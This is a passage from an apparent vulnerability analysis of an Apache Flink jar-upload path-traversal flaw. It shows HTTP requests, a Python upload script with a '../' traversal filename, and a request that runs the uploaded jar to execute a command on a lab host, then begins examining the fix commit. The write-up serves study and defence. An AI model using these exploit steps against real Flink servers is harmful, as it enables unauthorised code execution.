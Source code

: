 - Get the `Flink` run directory, and the path to `web.tmpdir` can be obtained through the interface `/jobmanager/config`.

```html
GET /jobmanager/config HTTP/1.1
Host: 192.168.10.32:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
```

![Untitled](Apache%20Flink%20%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%207d976a56676d4f50a5cb19ea74e8f299/Untitled%202.png)

-Use the vulnerability to upload the `jar` package, construct the request packet, and upload the `jar` package to the directory`/var/folders/ch/d7lw4k6j2dn0sc9hnjnlzrg40000gp/T/flink-web-c9f4b5d7-3d33-42b1-8d8f-fa510a7c3d32/flink-web-upload`

```python
import requests
url = 'http://192.168.10.32:8081/jars/upload'

files = {
    'file': ('../../../../../../../../../../../../../../../../../../var/folders/ch/d7lw4k6j2dn0sc9hnjnlzrg40000gp/T/flink-web-c9f4b5d7-3d33-42b1-8d8f-fa510a7c3d32/flink-web-upload/Execute.jar', open(r'Execute.jar','rb'), 'form-data;name="jarfile
"')
}

r = requests.post(url, files=files)
print(r.text)
```

- Use the uploaded `jar` to execute the command.

```html
POST /jars/Execute.jar/run?entry-class=Execute&program-args=%22open%20-a%20Calculator%22 HTTP/1.1
Host: 192.168.10.32:8081
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
```

![Untitled](Apache%20Flink%20%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%207d976a56676d4f50a5cb19ea74e8f299/Untitled%203.png)

### Vulnerability Analysis

The vulnerability repair-related `commit` is given in the vulnerability notification, [https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4#diff-7920624ff6651ac9897c79309c0a94073a4e7afb111e926c83414 92f3a730051](https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4#diff-7920624ff6651ac9897c79309c0a94073a4e7afb111e926c8341492f3a730051).

![Untitled](Apache%20Flink%20%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%207d976a56676d4f50a5cb19ea74e8f299/Untitled%204.png)

Set a breakpoint at the relevant code of `FileUploadHandler.java`. After obtaining the request packet for `HTTP`, call the `org.apache.flink.shaded.netty4.io.netty.handler.codec.http.multipart.DiskFileUpload#getFilename` method to get the file name.
